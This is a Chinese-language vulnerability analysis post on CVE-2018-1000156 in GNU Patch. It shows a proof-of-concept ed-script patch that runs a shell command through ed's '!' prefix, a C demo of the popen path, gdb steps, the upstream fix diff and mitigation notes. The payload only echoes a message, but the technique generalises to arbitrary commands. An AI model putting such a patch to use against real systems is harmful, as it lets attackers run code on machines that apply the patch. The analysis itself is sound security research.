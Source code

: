 ```yaml
---
layout: post
title:  "CVE-2018-1000156：GNU Patch任意代码执行漏洞分析"
date:   2018-04-25 11:30:00
categories: 漏洞分析
tags: [漏洞分析]
---
```


<!-- more -->

### 漏洞背景

使用`ed`格式并用`!`开头的补丁，会导致代码执行

#### 影响版本

> GNU Patch 2.7.6及以下 （笔者下载了GNU Patch 2.7.1~6源码编译测试，都存在该问题）

GNU Patch 源码下载地址：https://ftp.gnu.org/gnu/patch/

### 漏洞分析

#### Poc代码

```
--- a	2018-13-37 13:37:37.000000000 +0100
+++ b	2018-13-37 13:38:38.000000000 +0100
1337a
1,112d
!echo "pwn successfully!"

```

#### 调试过程

gdb 设置参数运行：

> set args test < ./poc.patch  
> b do_ed_script

#### 漏洞成因

![](../image/2018-04-25-CVE-2018-1000156-GNU-Patch任意代码执行漏洞分析/3.jpg)

函数原型

> FILE *popen(const char *command, const char *type);

如果type是`"w"`则文件指针连接到command的`标准输入`,会将`patch`的内容传入`/bin/ed/ - ./test.oUm4Sb5`的输入中,`test.oUm4Sb5`是之前`make_tempfile`创建的临时文件。

`popen()`函数通过创建一个管道，调用`fork()`产生一个子进程，执行一个shell以运行命令来开启一个进程

启动的进程为`/bin/ed`，而`!`在`ed`编辑器中表示后面跟的是操作系统命令，从而导致代码执行。

![](../image/2018-04-25-CVE-2018-1000156-GNU-Patch任意代码执行漏洞分析/4.jpg)

#### 漏洞demo

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
int main()
{
        FILE *pipefp = 0;
        char *buf[200];
        static FILE *pfp;
        sprintf(buf,"%s","/bin/ed - ./temp.txt");
        fflush(stdout);
        pipefp = popen(buf,"w");

        sprintf(buf,"%s","1337a\n1,112d\n!echo 'pwn successfully'\n");
        fwrite(buf,1,200,pipefp);
        pclose(pipefp);
        return 0;
}
```

popen处fork了父进程和子进程，父进程通过fwrite将运行的命令传入管道，子进程此时打开了/bin/ed，接受了命令，并执行。

### 运行结果

![](../image/2018-04-25-CVE-2018-1000156-GNU-Patch任意代码执行漏洞分析/1.jpeg)

![](../image/2018-04-25-CVE-2018-1000156-GNU-Patch任意代码执行漏洞分析/2.jpg)

### 补丁分析

```
diff --git a/src/pch.c b/src/pch.c
index bc6278c..f97a4dc 100644
--- a/src/pch.c
+++ b/src/pch.c
@@ -33,6 +33,7 @@
 # include <io.h>
 #endif
 #include <safe.h>
+#include <sys/wait.h>
 
 #define INITHUNKMAX 125			/* initial dynamic allocation size */
 
@@ -2389,22 +2390,25 @@ do_ed_script (char const *inname, char const *outname,
     static char const editor_program[] = EDITOR_PROGRAM;
 
     file_offset beginning_of_this_line;
-    FILE *pipefp = 0;
     size_t chars_read;
+    FILE *tmpfp = 0;
+    char const *tmpname;
+    int tmpfd, tmpfl;
+    pid_t pid;
+
+    if (! dry_run && ! skip_rest_of_patch)
+      {
+	/* Write ed script to a temporary file: this causes ed to abort on
+	   invalid commands.  If we used a pipe instead, ed would continue
+	   after invalid commands.  */
+	tmpfd = make_tempfile (&tmpname, 'e', NULL, O_RDWR | O_BINARY, 0);
+	if (tmpfd == -1)
+	  pfatal ("Can't create temporary file %s", quotearg (tmpname));
+	tmpfp = fdopen (tmpfd, "w+b");
+	if (! tmpfp)
+	  pfatal ("Can't open stream for file %s", quotearg (tmpname));
+      }
 
-    if (! dry_run && ! skip_rest_of_patch) {
-	int exclusive = *outname_needs_removal ? 0 : O_EXCL;
-	assert (! inerrno);
-	*outname_needs_removal = true;
-	copy_file (inname, outname, 0, exclusive, instat.st_mode, true);
-	sprintf (buf, "%s %s%s", editor_program,
-		 verbosity == VERBOSE ? "" : "- ",
-		 outname);
-	fflush (stdout);
-	pipefp = popen(buf, binary_transput ? "wb" : "w");
-	if (!pipefp)
-	  pfatal ("Can't open pipe to %s", quotearg (buf));
-    }
     for (;;) {
 	char ed_command_letter;
 	beginning_of_this_line = file_tell (pfp);
@@ -2415,14 +2419,14 @@ do_ed_script (char const *inname, char const *outname,
 	}
 	ed_command_letter = get_ed_command_letter (buf);
 	if (ed_command_letter) {
-	    if (pipefp)
-		if (! fwrite (buf, sizeof *buf, chars_read, pipefp))
+	    if (tmpfp)
+		if (! fwrite (buf, sizeof *buf, chars_read, tmpfp))
 		    write_fatal ();
 	    if (ed_command_letter != 'd' && ed_command_letter != 's') {
 	        p_pass_comments_through = true;
 		while ((chars_read = get_line ()) != 0) {
-		    if (pipefp)
-			if (! fwrite (buf, sizeof *buf, chars_read, pipefp))
+		    if (tmpfp)
+			if (! fwrite (buf, sizeof *buf, chars_read, tmpfp))
 			    write_fatal ();
 		    if (chars_read == 2  &&  strEQ (buf, ".\n"))
 			break;
@@ -2435,13 +2439,50 @@ do_ed_script (char const *inname, char const *outname,
 	    break;
 	}
     }
-    if (!pipefp)
+    if (!tmpfp)
       return;
-    if (fwrite ("w\nq\n", sizeof (char), (size_t) 4, pipefp) == 0
-	|| fflush (pipefp) != 0)
+    if (fwrite ("w\nq\n", sizeof (char), (size_t) 4, tmpfp) == 0
+	|| fflush (tmpfp) != 0)
       write_fatal ();
-    if (pclose (pipefp) != 0)
-      fatal ("%s FAILED", editor_program);
+
+    if ((tmpfl = fcntl (tmpfd, F_GETFD)) == -1
+        || fcntl (tmpfd, F_SETFD, tmpfl & ~FD_CLOEXEC) == -1)
+      pfatal ("Can't clear close-on-exec flag of %s", quotearg (tmpname));
+
+    if (lseek (tmpfd, 0, SEEK_SET) == -1)
+      pfatal ("Can't rewind to the beginning of file %s", quotearg (tmpname));
+
+    if (! dry_run && ! skip_rest_of_patch) {
+	int exclusive = *outname_needs_removal ? 0 : O_EXCL;
+	assert (! inerrno);
+	*outname_needs_removal = true;
+	copy_file (inname, outname, 0, exclusive, instat.st_mode, true);
+	sprintf (buf, "%s %s%s", editor_program,
+		 verbosity == VERBOSE ? "" : "- ",
+		 outname);
+	fflush (stdout);
+
+	pid = fork();
+	if (pid == -1)
+	  pfatal ("Can't fork");
+	else if (pid == 0)
+	  {
+	    dup2 (tmpfd, 0);
+	    execl ("/bin/sh", "sh", "-c", buf, (char *) 0);
+	    _exit (2);
+	  }
+	else
+	  {
+	    int wstatus;
+	    if (waitpid (pid, &wstatus, 0) == -1
+	        || ! WIFEXITED (wstatus)
+		|| WEXITSTATUS (wstatus) != 0)
+	      fatal ("%s FAILED", editor_program);
+	  }
+    }
+
+    fclose (tmpfp);
+    safe_unlink (tmpname);
 
     if (ofp)
       {

```
补丁是创建了临时文件来代替pipe操作，使用文件的方式会使得ed因为无效的命令而退出，而之前的pipe操作遇到无效的命令后会继续执行。但popen的内部实现其实也是通过先fork，再dup2(fd,0)，最后执行execl，补丁只是模拟了这一过程，并用文件的方式代替了管道操作。

![](../image/2018-04-25-CVE-2018-1000156-GNU-Patch任意代码执行漏洞分析/5.jpg)

其他缓解措施：以/bin/ed -r的形式启动，而-r参数的含义是：

> -r, --restricted           run in restricted mode

运行在严格的模式下，它禁止从当前目录编辑文件和执行shell命令。

### 参考链接

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000156

https://savannah.gnu.org/bugs/index.php?53566

https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_71/com.ibm.aix.cmds2/ed.htm